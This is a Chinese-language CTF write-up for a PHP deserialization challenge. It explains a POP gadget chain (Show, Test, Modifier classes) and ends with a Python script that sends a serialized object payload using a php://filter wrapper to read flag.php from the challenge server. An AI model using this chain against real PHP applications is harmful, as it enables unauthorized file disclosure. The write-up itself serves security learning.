 这里preg_match对类中的source进行比较，将它作为字符串，所以就调用了__toString方法
__toString是在对象被当成字符串的时候调用
所以这里我们需要使Show->source = new Show();
即可调用__toString方法
构造pop链：

Modifier->__invoke()->append()->flag
Test->__get()->Modifier
Show->__wakeup()->__toString()->Test

所以完整的pop链:

Show->__wakeup()(preg_match把对象当作字符串触发)->__toString()(使类中的source为Test对象，输出不存在的对象触发)->Test->__get()方法->Modifier->__invoke()(调用对象以函数的形式触发)->append()->include(文件包含，包含flag)



一键getflag.py

import requests
import base64
url = "http://dd9a4b21-3907-4515-b26b-998e448cc729.node3.buuoj.cn/?pop="
payload = 'O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";s:9:"index.php";s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:6:"\00*\00var";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}}}s:3:"str";N;}'
res = requests.get(url+payload)
print(base64.b64decode(res.text))